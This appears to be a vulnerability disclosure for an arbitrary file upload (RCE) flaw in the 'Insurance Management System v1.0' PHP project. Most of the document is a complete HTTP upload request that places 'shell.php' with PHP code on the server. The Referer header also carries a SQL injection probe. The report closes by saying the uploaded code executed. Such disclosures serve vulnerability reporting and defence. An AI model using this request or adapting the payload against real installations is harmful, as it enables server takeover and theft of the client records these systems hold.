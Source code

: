# Insurance Management System v1.0 by oretnom23 has arbitrary code execution (RCE)

vendor: https://itsourcecode.com/free-projects/php-project/insurance-management-system-project-in-php-free-download/

Vulnerability url: http://ip/insurance/editClient.php?client_id=1511986129;http://ip/insurance/updateClient.php

Vulnerability file:\ insurance\ updateClient.php

Loophole location： Arbitrary file upload vulnerability exists in Website Cover upload point in system info (RCE)

Request package for file upload：

```sql
POST /insurance/updateClient.php HTTP/1.1
Host: 192.168.1.19
Content-Length: 1460
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.19
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryueZa8WTcFxYpFdQj
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.19/insurance/editClient.php?client_id=1511986129%27%20and%20length(database())%20=4%20--+
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=nur494rnipq7uvtdrinjesc2ja
Connection: close

------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="fileToUpload"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="client_id"

1511986129
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="client_password"

123
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="name"

Aemon Task
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="sex"

Male
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="birth_date"

10-09-1970
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="marital_status"

Married
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="nid"

46814518451
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="phone"

54189465100
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="address"

Dhaka
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="policy_id"

1
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="agent_id"

555
------WebKitFormBoundaryueZa8WTcFxYpFdQj
Content-Disposition: form-data; name="submit"

UPDATE
------WebKitFormBoundaryueZa8WTcFxYpFdQj--
```

The files will be uploaded to this directory \insurance\uploads\


We visited the directory of the file in the browser and found that the code had been executed

